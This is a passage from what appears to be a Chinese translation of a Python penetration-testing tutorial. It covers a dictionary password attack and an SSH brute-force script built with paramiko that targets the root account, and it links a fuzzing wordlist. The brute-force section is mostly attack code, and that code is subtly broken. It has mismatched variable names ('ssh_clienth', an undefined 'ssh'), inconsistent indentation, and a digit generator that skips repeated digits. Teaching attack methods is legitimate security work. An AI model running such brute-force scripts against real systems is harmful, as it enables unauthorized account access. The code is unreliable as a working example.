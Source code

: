 密码可以通过猜测或尝试使用每种可能的单词和字母组合来破解。如果密码很复杂，包括数字、字符和特殊字符的组合，可能需要几小时、几周或几个月。

# 字典攻击

从可能被用作密码的单词开始，测试所有可能的密码。这种方法与我们对注入所做的方法相同。

我们可以从字典文件中读取密码并在应用程序中尝试：

```py
with open('password-dictionary.txt') as f: 
    for password in f: 
        try: 
                # Use the password to try login 

                print "[+] Password Found: %s" % password 
                break; 
        except : 
                print "[!] Password Incorrect: %s" % password 

```

在这里，我们读取`字典`文件并在我们的脚本中尝试每个密码。当特定密码有效时，它将在控制台中打印出来。

### 提示

您可以在这里下载整个模糊数据库列表：[`github.com/fuzzdb-project/fuzzdb`](https://github.com/fuzzdb-project/fuzzdb)。

# SSH 暴力破解

我们可以使用 Python 脚本来自动化暴力破解攻击以破解 SSH 登录。在这里，我们尝试多个用户名和密码以绕过 SSH 身份验证，使用自动化的 Python 脚本。对于 SSH 的暴力破解，我们必须使用一个名为**paramiko**的模块，它让我们连接到 SSH。

首先，我们导入所需的模块：

```py
import paramiko, sys, os, socket  
import itertools,string,crypt  

```

然后我们初始化静态变量，如密码大小、目标 IP、目标端口和用户：

```py
PASS_SIZE = 5 
IP = "127.0.0.1" 
USER = "root" 
PORT=22 

var = itertools.combinations(string.digits,PASS_SIZE) 

```

检查每个密码：

```py
try: 
    for i in var: 
        passwd = ''.join(i) 

        ssh_client = paramiko.SSHClient() 
        ssh_client.load_system_host_keys() 
           ssh_clienth.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy()) 
        try: 
            ssh.connect(IP , port=PORT, username=USER, password=passwd) 
            print "Password Found= "+passwd 
            break 
        except paramiko.AuthenticationException, error: 
            print "Faild Attempt: "+passwd 
```